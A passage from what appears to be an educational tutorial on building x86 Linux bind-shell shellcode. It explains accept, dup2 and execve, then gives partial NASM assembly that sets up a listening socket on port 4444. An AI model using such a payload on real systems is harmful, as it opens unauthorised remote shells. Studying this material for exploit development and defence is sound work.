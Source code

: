 The man pages for the `accept` method (see `man 2 accept`) indicate that the `addr` and `addrlen` arguments are only required to store the address of the host that connects to the socket and will not be used if `NULL` is specified. As there is no need to store this information, these arguments can be left as `NULL`.

After a connection is accepted, `dup2` is used to make the STDIN, STDERR and STDOUT file descriptors match the file descriptor that was created to communicate with the newly connected client. Doing this ensures that any incoming data will be written to STDIN and that any data coming out of the shell via STDERR and STDOUT will also be sent to the client.

Lastly, `execve` is called to spawn the shell.

Converting the Prototype to Shellcode
-------------------------------------
The first thing that needs to be done is to set the frame pointer and clear the registers that will be immediately used:

```nasm
; set the frame pointer
mov   ebp, esp

; clear required registers
xor   eax, eax
xor   ebx, ebx
xor   ecx, ecx
xor   edx, edx
```

After doing this, the `sockaddr_in` struct can be created on the stack. As mentioned earlier, the struct requires 8 bytes of padding; for this reason, `$eax` is pushed on to the stack twice and then a third time to ensure a value of zero is specified for `s_addr` (i.e. the equivalent of `INADDR_ANY`).

Next, the port number and family need to be pushed on to the stack. Before doing this, the value of `AF_INET` needs to be confirmed. This can be found in `/usr/include/bits/socket.h`. Checking the file will show it is equal to the value of `PF_INET` which is defined as `2`:

```c
#define PF_INET         2       /* IP protocol family.  */
```

Once this value is confirmed, `0x5c11` (port 4444) and `0x02` (`AF_INET`) can be pushed on to the stack to complete the construction of the `sockaddr_in` struct.

```nasm
; create sockaddr_in struct
push  eax
push  eax         ; [$esp]: 8 bytes of padding
push  eax         ; [$esp]: 0
push  word 0x5c11 ; [$esp]: 4444
push  word 0x02   ; [$esp]: AF_INET
```

With the required data prepared on the stack, the socket can be created. In order to call the `socket` method and all other required methods, the system call number will need to be identified within `/usr/include/i386-linux-gnu/asm/unistd_32.h` or `/usr/include/x86_64-linux-gnu/asm/unistd_32.h`.
